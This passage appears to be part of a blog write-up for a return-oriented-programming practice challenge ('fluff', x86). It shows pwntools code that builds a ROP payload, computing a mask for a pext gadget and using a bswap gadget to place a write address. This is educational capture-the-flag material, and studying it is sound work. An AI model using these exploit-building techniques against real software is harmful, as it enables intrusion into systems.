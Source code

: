 ```python
    ti = 0
    # compare from eax's least significant bit (right)
    # to most significant bit (left)
    for i in range(0, eax.bit_length()):
        if ti >= len(target_bits):
            break
        tbit = target_bits[ti]
        bit = (eax >> i) & 1
        if bit == tbit:
            mask_bits.append(1)
            ti += 1
        else:
            mask_bits.append(0)

    # set mask 
    mask_bits.reverse()
    mask = 0
    # turn bit list to int
    for bit in mask_bits:
        mask = (mask << 1) | bit
    payload += p32(pop_ebp) + p32(mask)

    # call pext gadget
    payload += p32(gadget1)
    return payload
```

### Set Address
> Check the [pwntools documentation](https://docs.pwntools.com/en/dev/util/packing.html){:target="_blank"}{:rel="noopener noreferrer"}
{: .prompt-tip }
![gadget3](/images/fluff/x86-gadget3.png)

The 
[bswap instruction](https://www.felixcloutier.com/x86/bswap){:target="_blank"}{:rel="noopener noreferrer"}
will swap the byte order of the provided register. The
default byte order of the program is little endian.
If we pass an address in big endian, the `bswap` instruction
will convert it into a usable format!

Luckily this is easy to implement using `pwntools`

```python
#!/bin/python3
from pwn import *

gadget3 = 0x08048558

# set address to write to
def set_address(addr):
    payload = b''
    # default byte order is little
    # gadget3 will switch byte order
    # from big to little
    ecx = p32(addr, endian='big')
    payload += p32(gadget3) + ecx
    return payload
```
